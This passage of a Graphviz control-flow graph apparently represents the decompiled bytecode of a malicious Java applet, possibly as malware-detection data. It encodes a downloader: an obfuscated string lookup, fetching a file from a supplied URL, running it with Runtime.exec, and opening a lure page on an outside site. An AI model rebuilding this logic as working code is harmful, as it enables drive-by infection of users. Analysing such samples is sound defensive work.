    "store.r $r165"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r2";
    "store.r r2"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r $r8";
    "load.r $r8"->"push 9";
    "push 9"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 21";
    "push 21"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 8";
    "push 8"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 8";
    "push 8"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r8";
    "load.r $r8"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r $r8";
    "new java.net.URL"
    "store.r $r8"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"arrayread.r";
    "store.r $r178"
    "arrayread.r"->"store.r $r178";
    "store.r $r178"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "load.r $r165"
    "staticinvoke <java.lang.System: void exit(int)>"->"load.r $r165";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "load.r $r165"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>";
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"->"store.r $r178";
    "new java.io.FileOutputStream"
    "store.r $r178"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"store.r $r165";
    "store.r $r165"->"load.r $r165";
    "new java.lang.StringBuilder"
    "load.r $r165"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r8";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r $r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"load.r $r165";
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"
    "load.r $r165"->"virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>";
    "load.r $r178"
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"->"load.r $r178";
    "push 0L"
    "load.r $r178"->"push 0L";
    "push 1048576L"
    "push 0L"->"push 1048576L";
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"
    "push 1048576L"->"virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>";
    "pop"
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"->"pop";
    "pop"->"load.r $r165";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r165"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r $r178";
    "interfaceinvoke <java.nio.channels.ReadableByteChannel: void close()> 0"
    "load.r $r178"->"interfaceinvoke <java.nio.channels.ReadableByteChannel: void close()> 0";
    "interfaceinvoke <java.nio.channels.ReadableByteChannel: void close()> 0"->"load.r r2";
    "load.r r2"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r8";
    "load.r $r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"new java.net.URL";
    "new java.net.URL"->"store.r r1";
    "store.r r1"->"load.r r1";
    "push \"http://privatetube.onlinetubes24.com/index2.html\""
    "load.r r1"->"push \"http://privatetube.onlinetubes24.com/index2.html\"";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "push \"http://privatetube.onlinetubes24.com/index2.html\""->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r1";
    "push \"_blank\""
    "load.r r1"->"push \"_blank\"";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2"
    "push \"_blank\""->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL,java.lang.String)> 2"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto goto return"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto goto return";
    "goto return"
    "goto goto return"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "staticinvoke <java.lang.System: void exit(int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "staticinvoke <java.lang.System: void exit(int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "arrayread.r"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"store.r $r165";
    "goto load.r $r165"
    "store.r $r165"->"goto load.r $r165";
}
